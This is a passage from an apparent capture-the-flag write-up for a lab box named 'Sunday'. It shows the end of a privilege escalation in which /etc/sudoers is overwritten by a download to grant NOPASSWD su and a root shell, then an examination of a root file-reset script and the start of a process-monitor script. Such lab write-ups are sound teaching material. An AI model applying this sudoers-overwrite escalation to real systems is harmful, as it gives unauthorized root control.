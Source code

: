     100%[==========================================================================================================================================================================================================>] 99            --.--K/s
    
    02:07:08 (15.45 MB/s) - `/etc/sudoers' saved [99/99]
    
    sammy@sunday:~$ sudo -l
    User sammy may run the following commands on this host:
        (root) NOPASSWD: /usr/bin/su
    sammy@sunday:~$ sudo su
    root@sunday:~# id
    uid=0(root) gid=0(root)
    

## Beyond Root

### overwrite

#### What Is It

With a root shell, I found the `overwrite` script in the root home directory.

    
    
    #!/usr/bin/bash
    
    while true; do
            /usr/gnu/bin/cat /root/troll.original > /root/troll
            /usr/gnu/bin/sleep 5
    done
    

It is consistent with the experience that troll is set back to it’s default
state regularly to suspect that the script is running on the box. Further, it
does show up in the processes list:

    
    
    sammy@sunday:/tmp$ ps awux | grep overwrite
    root       499  0.1  0.2 6204 2420 ?        S 01:41:01  0:09 /usr/bin/bash /root/overwrite
    

#### What Is It Doing

Without root access, how can we figure out what `overwrite` is doing?

I tried to compile [pspy](https://github.com/DominicBreuker/pspy) for solaris,
but wasn’t able to get it to work. If you know how, please leave a comment.

So I dropped back to the bash process monitor that I’ve seen in [ippsec
videos](https://youtu.be/K9DKULxSBK4?t=31m30s) and [OSCP
notes](https://scund00r.com/all/oscp/2018/02/25/passing-oscp.html#scripts). I
had to change a couple things to to get it working on Solaris. I also reduced
the sleep time, and added the pid output to the ps command so that if the same
command runs over and over, we’d still see that change :

    
    
    sammy@sunday:/tmp$ cat pm.sh
    #!/bin/bash
    